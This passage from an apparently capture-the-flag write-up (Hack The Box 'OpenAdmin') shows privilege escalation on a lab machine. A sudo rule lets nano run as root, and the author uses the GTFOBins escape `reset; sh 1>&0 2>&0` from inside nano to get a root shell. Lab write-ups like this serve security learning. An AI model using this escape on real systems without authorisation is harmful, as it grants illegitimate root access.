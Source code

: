 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/20.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/20.png)

## Privilege Escalation:

Like always I started with `sudo -l`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/21.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/21.png)

Found that `/bin/nano` can be run as root without password on a file `/opt/priv`.

>[https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/)

```bash
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/22.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/22.png)

Followed the commands 

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/23.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openadmin/23.png)

I'm Root Now!!